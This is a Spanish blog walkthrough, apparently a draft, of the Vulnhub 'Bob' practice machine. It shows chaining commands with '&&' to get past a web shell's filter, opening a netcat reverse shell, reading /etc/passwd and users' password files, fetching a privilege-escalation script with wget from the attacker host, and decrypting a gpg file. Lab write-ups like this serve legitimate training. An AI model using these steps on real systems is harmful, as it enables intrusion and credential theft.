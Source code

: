 ```yaml
---
layout: post
title: "Bob Walkthrough"
author: "Pete"
---
```


Después del post previo con la resolución de una máquina, aprovechando que tenía un poco de tiempo, me puse con otra máquina de Vulnhub. Con cada máquina se aprende algo nuevo! 

La máquina en cuestión es Bob [Vulnhub](https://www.vulnhub.com/entry/bob-101,226/).

Seguimos los mismos pasos que en la [entrada anterior](https://livefromsec.github.io/2018-06-04/vulnhub_walkthrough_basic_pentesting).

# Preparación

Tenemos ya nuestra máquina Kali Linux, y tenemos que conocer la dirección de la máquina vulnerable. En el post anterior lo hacíamos comparando visualmente las salidas del comando arp-scan -l, pero en caso de que haya muchas máquinas en la red, tendremos que pasar un rato haciendo esa comparación, así que podemos hacerlo más fácil:

* _arp-scan -l > lista_antes_
* [Encendemos la máquina vulnerable]
* _arp-scan -l > lista_despues_
* _comm lista_antes lista_despues_

Así nos saldrá resaltada la máquina con su IP.

# Escaneo inicial

Una vez que conocemos la dirección IP, lanzamos nmap y vemos qué puertos/servicios tiene la máquina. Usamos los mismos flags que en post previo: -A, --reason y --top-ports.

El resultado: la máquina tiene un servidor web, y el archivo robots.txt ya nos da alguna pista de por dónde empezar a mirar.

![placeholder]({{ site.url }}/assets/img/0029_201080607_0001.png)

Pues nada, vamos a echarle un ojo a los sitios incluidos en el robots.txt

login.php, dev_shell.php, lat_memo.html y passwords.html

Miro primero en passwords.html... era muy bonito para ser real, los admin nos cuentan que antes alguien se despistó y puso las passwords, pero que ya se ha quitado.

![placeholder]({{ site.url }}/assets/img/0030_201080607_0002.png)

Miro en login.php, que da error, y en login.html que nos informa que está desactivada la página de login. Pues nada, en principio no habrá que forzar la inyección SQL en el formulario de login ;) Nos vamos a mirar la consola de desarrollo.

![placeholder]({{ site.url }}/assets/img/0016_20171124_owasp_top_ten.png)   -> la imagen de la consola de dev.

# Consiguiendo la shell

Puede ejecutar comandos, así que vamos a ver si podemos abrirnos una shell con netcat...

![placeholder]({{ site.url }}/assets/img/0016_20171124_owasp_top_ten.png)   -> viendo el troleo

Hummmm... parece que el admin se lo ha tomado en serio. Pruebo todos los trucos de la [entrada pasada](blabla), pero está todo filtrado.

Vamos a ver si con wget podemos descargar y ejecutar una shell en .php...

También está restringido. Pues nada, a ver si se pueden ejecutar dos comandos:
* pruebo separándolos con ";", y también está bloqueado (aunque da otro mensaje).
* pruebo concatenándolos, con "&&"... y funciona!

![placeholder]({{ site.url }}/assets/img/0016_20171124_owasp_top_ten.png)   -> viendo el troleo

Ahora sí, concatenamos id con un nc y tenemos nuestra shell 

![placeholder]({{ site.url }}/assets/img/0016_20171124_owasp_top_ten.png)   -> imagen mostrando la shell 007

Sacamos una shell con python:

![placeholder]({{ site.url }}/assets/img/0016_20171124_owasp_top_ten.png)   -> imagen mostrando la shell.

y nos ponemos a enumerar.

# Enumeración

En la descripción que daban en Vulnhub, se recomienda buscar ficheros ocultos, así que a la hora de listar ficheros usaré:
* _ls -la_

Le echo un ojo al /etc/passwd con 
* _cat /etc/passwd_

y veo que hay varios usuarios en el sistema: c0rruptedb1t, bob, jc, seb y elliot.
Y que uno de ellos, bob aparece como "Not the smartest person".

![placeholder]({{ site.url }}/assets/img/0016_20171124_owasp_top_ten.png)   -> imagen mostrando la shell.

Nos vamos al /home y vamos a ir enumerando.
* seb no tiene nada destacable en su home
* jc no tiene nada destacable en su home
* elliot tiene un fichero llamado theadminisdumb.txt xD Este fichero nos da las credenciales de james (presumiblemente jc) y las suyas.
* bob es el que más cosas tiene: un fichero oculto llamado old_passwordfile.html, que tiene las credenciales de seb y las de jc. Además tiene 2 scripts en python (Hello_Again.py y Whell_Of_Fortune.py), un proftpd1.3.3 (versión backdorizada xD) y en su carpeta Documents tiene un documento poniendo a caldo a los demás (staff.txt), un fichero cifrado (login.txt.gpg) y un script que muestra unas notas en el escritorio.

Entonces, recopilando, tenemos 3 credenciales (las de elliot, jc y seb); un documento diciendo que bob es el administrador y unos cuantos ficheros de bob.

# Escalada de privilegios

En la máquina de la entrada anterior esto no era un problema, porque el servicio corría como root, por lo que al conseguir explotarlo nuestra shell era root.

Ahora tenemos que conseguir esa shell de root. Vamos a ver qué kernel corre, por si tuviese vulnerabilidades conocidas:
* _uname -a_

![placeholder]({{ site.url }}/assets/img/0039_201080607_0011.png)

Está actualizado, así que mejor centrarse en otras opciones. Los scripts que había en python sugerían correrlos con sudo, pero ninguno de los usuarios para los que tenemos credenciales puede hacerlo; además no se pueden modificar y en el crontab no se les llama...

En este punto podemos usar un script que revisa los principales puntos para hacer la escalada de privilegios en sistemas linux. El script se llama linuxprivchecker, y para mí se convirtió en herramienta imprescindible cuando estaba haciendo el OSCP.

Lo descargamos en /tmp desde la máquina vulnerable con wget, sirviéndolo desde la máquina Kali con SimpleHTTP:
* _python -m SimpleHTTP 80_ [en la máquina Kali]
* _wget http://ip_de_kali/linuxprivchecker.py_ [en la máquina vulnerable]

![placeholder]({{ site.url }}/assets/img/0040_201080607_0012.png)

Lo ejecutamos:
* _python linuxprivchecker.py_

y viendo los resultados, a priori no hay nada que resalte mucho.

Así que toca hacer recapitulación... ¿qué tenemos? Las claves de 3 de los 4 usuarios, dos scripts en python que no hacen nada y que no están en el crontab, un fichero cifrado y un fichero que imprime frases absurdas en pantalla.

![placeholder]({{ site.url }}/assets/img/0041_201080607_0013.png)

[En este punto empezamos a sudar viendo que puede que la máquina se resuelva descifrando el fichero... lo que puede implicar "idea feliz" :p ].

Pues nada, vamos a probar cosas para descifrar el fichero (mezcla de random y fuerza bruta). El comando [será] (https://www.gnupg.org/gph/en/manual/x110.html):

* _gpg --output login.txt --decrypt login.txt.gpg_

![placeholder]({{ site.url }}/assets/img/0044_201080607_0014)

Vamos allá, a probar ideas felices: bob, james, seb, elliot... no, de momento no hemos acertado. En el fichero "notes.sh" había referencias a Harry Potter, vamos a probar: "Harry", "HarryPotter", "Gryffindor", ... 

De momento tampoco... Como no estamos en un examen, era el momento de pedir el comodín de la llamada. Más que nada, porque seguir probando combinaciones sin garantía puede ser un "rabbit hole" y pasar así un par de horas sin resultados.

Al descargar la máquina, también se muestra un enlace a un walkthrough. Vamos a echarle un ojo, a ver cómo de lejos estábamos.

Al mirarlo, veo que la contraseña es la primera letra de cada frase: HARPOCRATES.

No comments, podría haber pasado horas y probablemente no me habría dado por probar esa palabra, así que bien hecho está :)

El siguiente paso es trivial, tenemos la clave de bob:

![placeholder]({{ site.url }}/assets/img/0043_201080607_0015)

Así que abrimos la sesión de bob, nos vamos a la raíz y hacemos:
* _sudo cat flag.txt_

![placeholder]({{ site.url }}/assets/img/0044_201080607_0016)
